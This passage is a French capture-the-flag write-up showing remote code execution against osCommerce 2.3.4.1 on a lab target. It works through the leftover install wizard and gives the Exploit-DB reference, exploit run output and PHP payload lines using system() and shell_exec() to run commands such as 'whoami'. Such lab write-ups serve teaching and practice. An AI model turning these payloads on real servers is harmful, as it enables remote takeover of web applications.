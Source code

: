 ```sh
osCommerce 2.3.4.1 - Remote Code Execution                                                                 | exploits/php/webapps/44374.py
----------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Pour laquelle on a des exploit, dont une RCE !

https://www.exploit-db.com/exploits/44374

Alors, on peut exploiter cette faille uniquement si le dossier contenant les scripts php d'installation n'ont pas été supprimé. Dans ce cas, il est possible d'appeler directement l'etape 4 du wizzard d'installation qui va générer le fichier de configuration de l'appli ... fichier qui est inclus dans tous les scripts php ! :)

Ca marche comme une injection sql. 


http://target.thm:8080/oscommerce-2.3.4/catalog/install/install.php?step=4

OK, les scripts d'install sont encore la.

Configuration de l'exploit pour notre cible et test du payload de base.

```py
payload += 'system("ls");'    # this is where you enter you PHP payload
```

```sh
kali@kali:~/thm/blueprint$ python exploit.py 
[+] Successfully launched the exploit. Open the following URL to execute your code

http://target.thm:8080/oscommerce-2.3.4/catalog/install/includes/configure.php
```

L'exploit semble avoir fonctionné et nous donne une url.

```
Warning: system() has been disabled for security reasons in C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\configure.php on line 27
```

system(); exec(); passthru(); shell_exec();

Essai avec `shell_exec()`

https://www.php.net/manual/fr/function.shell-exec.php

```php
<?php
$output = shell_exec('ls -lart');
echo "<pre>$output</pre>";
?>
```

```py
payload += '$output=shell_exec("cmd.exe /C whoami");'
payload += 'echo "<pre>$output</pre>";'
```
